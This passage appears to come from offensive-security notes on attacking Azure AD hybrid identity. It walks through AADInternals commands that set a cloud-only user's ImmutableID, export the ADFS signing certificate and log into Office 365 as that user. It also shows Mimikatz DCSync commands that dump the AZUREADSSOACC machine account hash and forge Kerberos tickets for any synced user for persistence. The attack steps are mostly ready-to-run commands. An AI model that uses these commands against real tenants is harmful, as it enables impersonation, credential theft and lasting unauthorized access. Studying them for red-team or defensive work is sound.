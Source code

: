 With DA privileges on-prem, it is possible to create ImmutableID of cloud-only users with access to Azure AD Connect Sync credentials!

1. **Create a realistic ImmutableID and set it for a cloud-only user:**
```powershell
[System.Convert]::ToBase64String((New-Guid).tobytearray())
Set-AADIntAzureADObject -CloudAnchor "User_594e67c3-c39b-41bb-ac50-cd8cd8bb780f" -SourceAnchor "pwrtlmsicU+5tgCUgHx2tA=="
```

2. **Using AADInternals, export the token signing certificate:**
```powershell
Export-AADIntADFSSigningCertificate
```

3. **Use the below command from AADInternals to access cloud apps as the user whose ImmutableID is specified:**
```powershell
Open-AADIntOffice365Portal -ImmutableID pwrtlmsicU+5tgCUgHx2tA== -Issuer http://domain.com/adfs/services/trust -PfxFileName C:\users\adfsadmin\Desktop\ADFSSigningCertificate.pfx -Verbose
```

# Persistence

## Hybrid Identity - Seamless SSO

Azure AD Seamless SSO facilitates automatic user sign-in when they are on a domain-joined on-premises machine, eliminating the need for passwords to log in to Azure AD and on-premises applications.

- It is supported by both Password Hash Synchronization (PHS) and Pass-Through Authentication (PTA).
- When Seamless SSO is enabled, a computer account named AZUREADSSOACC is created in the on-premises Active Directory. This account's Kerberos decryption key is shared with Azure AD.
- Azure AD exposes an endpoint [Ahttps://autologon.microsoftazuread-sso.com](https://autologon.microsoftazuread-sso.com) that accepts Kerberos tickets. The domain-joined machine's browser forwards the tickets to this endpoint for Single Sign-On (SSO).


### On-PREM to CLOUD

- The password or key of the **AzureADSSOAcc account does not change**.
- Compromising the NTLM hash of the AzureADSSOAcc machine account allows for the creation of Silver Tickets for **any synced on-premises user**.

Using Mimikatz, the NTLM hash of the AzureADSSOAcc machine account can be obtained by executing the following command:
```powershell
Invoke-Mimikatz -Command '"lsadump::dcsync /user:domain\azureadssoacc$ /domain:domain.corp /dc:dc.domain.corp"'
```

With the userPrincipalName (UPN) and SID of the user, a Silver Ticket can be created that can be utilized from any machine connected to the internet. 

The following Mimikatz command illustrates this process:
```
Invoke-Mimikatz -Command '"kerberos::golden /user:onpremadmin1 /sid:S-1-5-21-938785110-3291390659-577725712 /id:1108 /domain:domain.corp /rc4:<NTLM_hash> /target:aadg.windows.net.nsatc.net /service:HTTP /ptt"'
```
